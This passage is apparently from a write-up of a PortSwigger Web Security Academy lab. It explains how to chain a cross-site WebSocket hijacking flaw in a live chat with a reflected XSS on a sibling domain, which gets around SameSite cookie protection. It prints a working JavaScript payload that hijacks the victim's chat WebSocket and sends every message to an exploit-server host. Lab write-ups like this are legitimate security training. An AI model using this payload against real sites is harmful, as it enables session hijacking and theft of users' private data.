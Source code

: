 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113204112.png)

Now let's take a step back.

**We now found 2 vulnerabilities:**

1. CSWSH in `0a200002035e04ccc0cea048008a00db`'s "Live chat"
2. Reflected XSS in `cms` sibling domain's login page

Let's chain them together!

As `cms` sibling domain is part of the same site, we can use the reflected XSS to perform the CSWSH attack without it being mitigated by SameSite restriction:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113204303.png)

**CSWSH payload:**
```html
<script>
    var webSocket = new WebSocket('wss://0a200002035e04ccc0cea048008a00db.web-security-academy.net/chat');
    webSocket.onopen = function() {
        webSocket.send("READY");
    };
    webSocket.onmessage = function(event) {
        fetch('https://exploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net/log?'+event.data, {method: 'GET'});
    };
</script>
```
